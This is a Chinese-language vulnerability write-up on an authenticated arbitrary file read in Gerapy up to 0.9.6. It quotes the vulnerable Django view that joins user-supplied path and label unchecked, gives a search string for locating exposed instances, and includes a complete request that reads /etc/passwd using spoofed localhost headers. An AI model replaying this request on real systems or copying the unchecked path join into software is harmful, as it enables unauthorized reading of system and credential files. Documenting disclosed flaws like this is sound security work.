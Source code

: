 # Gerapy read 后台任意文件读取漏洞

## 漏洞描述

Gerapy gerapy/server/core/views.py 中的 project_file_read 方法存在任意文件读取，攻击者登录后台后发送特定的请求包即可利用漏洞

## 漏洞影响

```
Gerapy <= 0.9.6
```

## 网络测绘

```
title="Gerapy"
```

## 漏洞复现

登录页面

![image-20220524145252413](images/202205241452469.png)

出现漏洞的文件为 `gerapy/server/core/views.py`

![](images/202205241453657.png)

```
@api_view(['POST'])
@permission_classes([IsAuthenticated])
def project_file_read(request):
    """
    get content of project file
    :param request: request object
    :return: file content
    """
    if request.method == 'POST':
        data = json.loads(request.body)
        path = join(data['path'], data['label'])
        # binary file
        with open(path, 'rb') as f:
            return HttpResponse(f.read().decode('utf-8'))
```

参数 path 和 label 都为用户可控变量，登录后构造请求包

```
POST /api/project/file/read HTTP/1.1
Host: 
Content-Length: 35
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"path":"/etc/",
"label":"passwd"}
```

![](images/202205241453910.png)